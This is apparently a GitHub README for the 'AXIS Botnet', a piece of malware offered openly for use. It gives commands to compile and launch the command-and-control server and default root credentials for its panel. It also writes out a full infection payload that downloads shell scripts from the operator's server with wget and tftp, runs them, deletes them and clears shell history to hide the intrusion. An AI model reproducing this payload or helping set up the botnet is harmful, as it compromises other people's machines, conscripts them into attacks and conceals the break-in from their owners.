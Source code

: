 # AXIS Botnet

### INFO:
This project is no longer supported; it has been replaced by the Orbital Cannon.

### Installation:
* Linux only:
  * **recommended to use Centos 7**
  * `sudo python3 build.py AXIS_CC.c (server-ip)`
  * `gcc AXIS_CNC.c -o AXIS -pthread`
  * `sudo screen ./AXIS 606 1 909`
  
### Connect
* SSH Config:
  * PORT: 909
  * TYPE: RAW
  
* Password (default)
  * username: root
  * password: root
  
### Payload
* Payload: cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://(server-ip)/AXIS.sh; chmod 777 *; sh AXIS.sh; tftp -g (server-ip) -r tftp1.sh; chmod 777 *; sh tftp1.sh; rm -rf *.sh; history -c"
